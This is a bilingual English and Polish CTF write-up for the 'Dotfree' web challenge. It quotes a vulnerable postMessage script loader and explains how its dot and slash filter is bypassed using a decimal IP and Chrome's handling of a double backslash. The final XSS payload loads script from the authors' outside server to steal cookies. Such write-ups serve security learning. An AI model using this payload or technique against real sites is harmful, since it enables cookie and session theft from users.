 # Dotfree (web, 19 solved, 208p)

```
All the IP addresses and domain names have dots, but can you hack without dot?

http://13.57.104.34/

```

In this simple challenge we can see a form with one field for URL, suggesting the XSS attack. A quick glance at the source code:
```javascript
    function lls(src) {
        var el = document.createElement('script');
        if (el) {
            el.setAttribute('type', 'text/javascript');
            el.src = src;
            document.body.appendChild(el);
        }
    };

    function lce(doc, def, parent) {
    // ...
    };
    window.addEventListener('message', function (e) {
        if (e.data.iframe) {
            if (e.data.iframe && e.data.iframe.value.indexOf('.') == -1 && e.data.iframe.value.indexOf("//") == -1 && e.data.iframe.value.indexOf("。") == -1 && e.data.iframe.value && typeof(e.data.iframe != 'object')) {
                if (e.data.iframe.type == "iframe") {
                    lce(doc, ['iframe', 'width', '0', 'height', '0', 'src', e.data.iframe.value], parent);
                } else {
                    lls(e.data.iframe.value)
                }
            }
        }
    }, false);
    window.onload = function (ev) {
        postMessage(JSON.parse(decodeURIComponent(location.search.substr(1))), '*')
    }
```

So appending the following JSON to the URL:
```
?{"iframe":{"value":"something"}}
```
will load and execute the script from the URL provided. We'd like to load the script from controlled server, but first we need to bypass some banned characters: dot (`.`), double slash (`//`) and unicode dot (`。`)

We can bypass the first one by putting our ip address in decimal form:
```
sasza.net -> 77.55.217.56 -> 1295505720
```
The next problem is to make browser load the script from remote server without using `http://` prefix. That one we can bypass using one of chrome features (as we believe that's the browser the bot is using) - putting double backslash as a URL prefix will be replaced with current schema - in this case `http://`. What's worth to mention, it works like this only on linux. In windows version of chrome `\\` is replaced with `file://`

Final payload:
```
http://13.57.104.34/?{"iframe":{"value":"\\\\1295505720"}}
```
will load and exec code hosted in our server. Now we just need to write a simple script to steal cookies and we get the flag:
```
rwctf{L00kI5TheFlo9}
```

The unicode dot on the list of blacklisted characters is something worth to mention. It's the protection against abusing another chrome's feature that's good to know - in URLs it's treated just like a plain ASCII dot, what has been used in simplexss challenge in 0CTF 2017 quals.
# PL

W tym prostym i przyjemnym zadanku dostajemy formularz przyjmujący od nas URL-a - co sugeruje konieczność znalezienia XSS-a. Szybki rzut oka na źródła:
```javascript
    function lls(src) {
        var el = document.createElement('script');
        if (el) {
            el.setAttribute('type', 'text/javascript');
            el.src = src;
            document.body.appendChild(el);
        }
    };

    function lce(doc, def, parent) {
    // ...
    };
    window.addEventListener('message', function (e) {
        if (e.data.iframe) {
            if (e.data.iframe && e.data.iframe.value.indexOf('.') == -1 && e.data.iframe.value.indexOf("//") == -1 && e.data.iframe.value.indexOf("。") == -1 && e.data.iframe.value && typeof(e.data.iframe != 'object')) {
                if (e.data.iframe.type == "iframe") {
                    lce(doc, ['iframe', 'width', '0', 'height', '0', 'src', e.data.iframe.value], parent);
                } else {
                    lls(e.data.iframe.value)
                }
            }
        }
    }, false);
    window.onload = function (ev) {
        postMessage(JSON.parse(decodeURIComponent(location.search.substr(1))), '*')
    }
```

Wynika z tego, że doklejenie JSON-a formatu:
```
?{"iframe":{"value":"something"}}
```
do adresu spowoduje załadowanie i wykonanie skryptu z podanego URL-a. Chcielibyśmy w tym momencie załadować skrypt z kontrolowanego przez nas serwera, jednak przeszkodą są tu filtry na niedozwolone znaki: kropkę (`.`), podwójny slash (`//`) i unicodową kropkę (`。`).

Filtr na kropkę ominiemy podając adres naszego serwera w postaci decymalnej:
```
sasza.net -> 77.55.217.56 -> 1295505720
```
Kolejnym problemem jest zmuszenie przeglądarki, żeby załadowała skrypt ze zdalnego serwera bez możliwości użycia prefiksu `http://`. Ten filter omijamy wykorzystując pewną własność przeglądarki chrome (którą, miejmy nadzieję, wykorzystuje bot) - podanie dwóch backslashy na początku URL-a zostanie podmienione na obecny scheme - w tym przypadku `http://`. Co ciekawe, dzieje się tak tylko pod linuksem - w windowsowej wersji `\\` zostanie zmienione na `file://`.

Ostateczny payload:
```
http://13.57.104.34/?{"iframe":{"value":"\\\\1295505720"}}
```
spowoduje załadowanie i wykonanie kodu hostowanego na naszym serwerze. Teraz wystarczy napisać prosty skrypt kradnący ciastka i dostajemy flagę:
```
rwctf{L00kI5TheFlo9}
```

Warto zwrócić uwagę na obecność unicode'owej kropki na liście zabronionych znaków. Jest to zabezpieczenie przed wykorzystaniem kolejnej cechy chrome'a, którą warto znać - w przypadku URL-i taki znak zostanie zinterpretowany jako zwykła kropka, co zostało wykorzystane w zadaniu simplexss z kwalifikacji 0CTF 2017.

